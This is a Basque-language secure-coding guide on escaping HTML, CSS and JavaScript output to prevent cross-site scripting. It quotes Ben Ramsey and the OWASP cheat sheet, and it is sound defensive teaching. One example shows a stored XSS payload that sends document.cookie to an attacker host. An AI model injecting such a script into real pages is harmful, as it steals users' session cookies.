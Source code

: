 # Ihes irteera

### Azalpena

HTML eta beste web lengoaia batzuek kode egikarigarriarekin nahasten dute edukia. HTML paragrafo bakar batek datuen irudikapen bisuala izan dezake JavaScript egikaritzeko argibideekin batera. HTMLa kargatzean edo APItik datuak itzultzean, gure ustez eduki hutsa denak JavaScript kodea har lezake, nabigatzaileak interpretatu eta egikaritzeko modukoa. Hori gertatzen da, adibidez, erasotzaile batek datu base batean txertatutako edukia kargatzen dugunean, adibidez `<div><script>//kode maltzurra</script></div>`. Hori arindu daiteke arakatzaileari aginduz konfiantzazko datuen zatiak edukitzat soilik tratatzeko eta inoiz ez interpretatzeko. Teknika horri ihes egitea deritzo. Npm liburutegi eta HTML txantiloi motor askok ihes egiteko baliabideak eskaintzen dituzte (adibidez: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/node-esapi))). HTML edukiak ez ezik CSSk eta JavaScriptek ere ihes egin beharko lukete



### Kode adibidea: ez jarri fidagarritasunik gabeko daturik zure HTMLan

```javascript
<script>...INOIZ EZ JARRI FIDAGARRIA EZ DEN KODEA HEMEN...</script>   zuzenean scriptean

 <!--...INOIZ EZ JARRI FIDAGARRIA EZ DEN KODEA HEMEN...-->             HTML komentario baten barruan

 <div ...INOIZ EZ JARRI FIDAGARRIA EZ DEN KODEA HEMEN...=test />       ezaugarri izen batean

 <INOIZ EZ JARRI FIDAGARRIA EZ DEN KODEA HEMEN... href="/test" />   tag izen batean

 <style>...INOIZ EZ JARRI FIDAGARRIA EZ DEN KODEA HEMEN...</style>   CSSan zuzenean

```

### Kode adibidea: datu base batean txerta daitekeen eduki kaltegarria

```javascript
<div>
  <b>Komentario bat</b>
  <script>
    window.location='http://attacker/?cookie='+document.cookie
</script>
</div>

```

<br/><br/>

### Blog aipua: "Pertsonaiak interpretatuak izatea nahi ez dugunean"

[benramsey.com](https://benramsey.com/articles/escape-output/) bloga:
> Datuak modu askotara irten daitezke  zure aplikaziotik: web nabigatzaile bati bidalitako HTML moduan, SQL datu basera bidalita, XML RSS irakurgailura bidalita, WML haririk gabeko gailu batera bidalita, etab. Aukerak mugagabeak dira. Horietako bakoitzak bere karaktere bereziak ditu, multzoka jasotzen dituena, eta  jasotako gainerako testu arruntaren aldean desberdin interpretatzen dena. Batzuetan, karaktere berezi horiek bidali nahi ditugu interpretatuak izan ahal izateko (HTML nabigatzaile batera bidalitako HTML etiketak, adibidez); beste batzuetan (erabiltzaileek edo beste iturri batzuek egindako sarreren kasuan), ez dugu nahi karaktere horiek interpretatuak izan daitezen, eta, beraz, ihes egin behar diegu.

> Ihes egiteari kodetzea ere esaten zaio batzuetan: ihes egitea edo kodetzea,  laburbilduz,, datuak egikaritu edo interpretatuko ez diren moduan irudikatzeko prozesua da, alegia. Adibidez, HTMLk honako testu hau letra lodiz idatziko du web nabigatzaile batean <strong>etiketek esanahi berezia dutelako:
<strong>Testu hau letra lodiz idatzita dago.<strong>
Baina, demagun etiketak nabigatzailean kargatu nahi ditudala eta haien interpretazioa ekidin nahi dudala. Orduan, HTMLan esanahi berezia duten parentesi angeluarretatik ihes egin behar dut. Hona hemen ihes egindako HTMLa:
&lt;strong&gt;Testu hau letra lodiz idatzita dago.&lt;/strong&gt;


<br/><br/>

### Blog aipua:  "OWASPek segurtasunera bideratutako kodeketa liburutegia erabiltzea gomendatzen du"

OWASP [XSS (Cross Site Scripting) Prebentzio tranpa orria](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) bloga:
> "Kodetzaile horiek idaztea ez da oso zaila, baina tranpa ugari daude ezkutuan. Adibidez, Javascripten bezalako lasterbide batzuk" erabiltzeko tentazioa izan dezakezu. Hala ere, balio horiek arriskutsuak dira, eta nabigatzailean habiaratutako analizatzaileek oker interpreta ditzakete. Baliteke  zuri ahaztea ihes egitea ihes pertsonaiarengandik, erasotzaileek erabil dezaketeena neutralizatzeko zure segurtasun ahaleginak. **OWASPek gomendatzen du segurtasunera bideratutako kodeketa liburutegiak erabiltzea, arauak behar bezala ezartzen direla ziurtatzeko**."

<br/><br/>

### Blog aipua: "Ihes sintaxia erabili behar duzu HTML zatian"

OWASP [XSS (Cross Site Scripting) Prebentzio tranpa orria](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) bloga:
> "Baina HTML entitate kodeketak ez du ondo funtzionatzen <script> etiketa baten barruan datu ez fidagarriak jartzen badituzu edozein lekutan, edo onmouseover bezalako gertaeren kudeatzailearen atributu batean edo CSS barruan, edo URL batean. Beraz, toki guztietan HTML entitate kodeketaren bat erabiltzen baduzu ere, ziurrena da XSSen erasoekiko zaurgarria izaten jarraituko duela. Ihes sintaxia erabili behar duzu fidagarriak ez diren datuak jartzen ari zaren HTML dokumentuaren zatian."
